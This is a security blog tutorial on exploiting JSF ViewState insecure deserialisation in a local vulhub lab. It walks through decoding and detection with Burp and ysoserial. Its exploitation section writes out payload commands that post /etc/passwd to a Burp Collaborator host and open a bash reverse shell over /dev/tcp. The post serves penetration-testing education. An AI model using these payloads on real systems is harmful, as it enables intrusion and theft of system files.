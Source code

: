 ```yaml
---
layout: post
title: Demystifying Insecure Deserialisation on JSF Application
date: 2021-05-08
summary: JSF Viewstate Deserialisation
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone,

In this blog, we will see about one of the interesting vulnerability **Insecure Deserialisation on JSF Application** which occurs due to the **misconfigured viewstate**

<p align="center">
  <img src="/images/deserialisation/desc1.png">
</p>

<p align="center"> <strong>Difference between Serialization & Deserialization:</strong></p>

* Serialization is the process of taking an object and translating it into plaintext. This plaintext can then be encrypted or signed, as well as simply used the way it is.

* The **reverse** process is called **deserialization**, i.e. when the plaintext is converted back to an object.

<p align="center">
  <img src="/images/deserialisation/desc2.png">
</p>

<p align="center"> <strong>ViewState</strong></p>

* The purpose of “ViewState” is to memorize the state of the user, even after numerous HTTP queries (stateless protocol).
* Different Types of View-state
  1. .Net - ``___Viewstate``
  2. JSF - ``javax.faces.Viewstate``    

<p align="center"> <strong>Flow of JSF ViewState</strong></p>

* The "ViewState" of a page is by default, stored in a hidden form field in the web page named **javax.faces.ViewState**.
* ViewState starts with **H4sIAAAA**, which represent the Base64Gzip.

<p align="center">
  <img src="/images/deserialisation/desc3.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc4.png">
</p>

<p align="center"> <strong>Layers in JSF Viewstate</strong></p>

<p align="center">
  <img src="/images/deserialisation/desc5.png">
</p>

<p align="center"><strong>Environment Setup</strong></p>

Step 1: Create a Docker Compose file using the following command 

`docker-compose.yml`

```bash
version: '2'
services:
  web:
    image: vulhub/mojarra:2.1.28
    ports:
      - "8080:8080"
```

Step 2: Execute the following command to start a JSF application which using JDK7u21 and Mojarra 2.1.28

```bash
docker-compose up -d
```
<p align="center">
  <img src="/images/deserialisation/desc6.png">
</p>

Step 3: After the application is started, visit http://127.0.0.1:8080 to see the demo page.

<p align="center">
  <img src="/images/deserialisation/desc7.png">
</p>

<p align="center"><strong>Decoding JSF Viewstate</strong></p>

Step 1: Open the Demo URL http://127.0.0.1:8080 , give a sample input and intercept the request using Client-Side Proxy such as Burpsuite as shown below.

<p align="center">
  <img src="/images/deserialisation/desc8.png">
</p>

Step 2: In the request body, it can be observed that the application uses JSF Viewstate format.

<p align="center">
  <img src="/images/deserialisation/desc9.png">
</p>

Step 3: Select the **javax.faces.ViewState** values , right click & send it to **Decoder** as shown below.

<p align="center">
  <img src="/images/deserialisation/desc10.png">
</p>

Step 4: First do a **URL Decode** -> **Base64 Decode** -> **GZip Decode**.

<p align="center">
  <img src="/images/deserialisation/desc11.png">
</p>

Step 5: The final output gives some information about the java utils and components used in the application.

<p align="center">
  <img src="/images/deserialisation/desc12.png">
</p>

<p align="center"><strong>Burpsuite Extenders & Tools Configuration</strong></p>

* Install **Java Deserialization Scanner** from **Extenders** -> **BApp Store**.

<p align="center">
  <img src="/images/deserialisation/desc13.png">
</p>

* Navigate to the **Deserialization Scanner** -> **Configurations** and configure the ysoserial.

<p align="center">
  <img src="/images/deserialisation/desc14.png">
</p>

Note: ysoserial can be downloaded from <https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar>

<p align="center"><strong>Vulnerability Detection</strong></p>

Step 1: Intercept the request of the application and send the request to **DS - Manual Testing** .

<p align="center">
  <img src="/images/deserialisation/desc15.png">
</p>

Step 2: Select the **javax.faces.ViewState** values and **Set Insertion Point**.

<p align="center">
  <img src="/images/deserialisation/desc16.png">
</p>

Step 3: Choose Attack (Base64GZip) as shown below.

<p align="center">
  <img src="/images/deserialisation/desc17.png">
</p>

Step 4: If the viewstate is vulnerable, it will show **Potentially VULNERABLE!!!**.

<p align="center">
  <img src="/images/deserialisation/desc18.png">
</p>

Step 5: Now we got the payload type which is **Jdk7u21** 

<p align="center"><strong>Exploitation Phase</strong></p>

NOTE: There are two ways to Exploit a JSF Viewstate Deserialisation

* Out-Of-Band 
* Reverse Shell

<p align="center"><strong>Exploitation using Deserialization Scanner</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Using the following command to perform a **OOB Deserialisation** and Read Internal Files of the application

```bash
Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net"
```

<p align="center">
  <img src="/images/deserialisation/desc19.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc20.png">
</p>

<p align="center"><strong>Manual Payload Creation using Ysoserial</strong></p>

**Ysoserial Syntax** 

```bash
java -jar ysoserial-[version]-all.jar [payload] '[command]'
```
**Payload Command**

```bash
java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net" | gzip | base64 -w 0
```
 
<p align="center">
  <img src="/images/deserialisation/descc21.png">
</p>

* Replace the **javax.faces.ViewState** value with the Ysoserial generated payload and **URL Encode** it.

<p align="center">
  <img src="/images/deserialisation/descc22.png">
</p>

* Click on Go and Observe the response in Burp Collaborator.

<p align="center">
  <img src="/images/deserialisation/desc23.png">
</p>

<p align="center"><strong>Establishing a Stable Reverse Shell</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Use the following Bash Reverse Shell command to gain a **Reverse Shell**.

```bash
Jdk7u21 "/bin/bash -c /bin/bash${IFS}-i>&/dev/tcp/ipaddress/1337<&1"
```
* bash -i >& - Invokes bash with an **“interactive”** option.
* /dev/tcp/ipaddress/1337 - Redirects that session to a tcp socket via device file. 
* 0>&1 - Takes standard output, and connects it to standard input.

<p align="center">
  <img src="/images/deserialisation/descc24.png">
</p>

<p align="center">
  <img src="/images/deserialisation/descc25.png">
</p>

<p align="center"> Now we have reached stable Reverse Shell using JSF Viewstate Deserialisation.</p>

<p align="center">
  <img src="https://media.giphy.com/media/l0D76LT6o1jaG2g0M/source.gif">
</p>
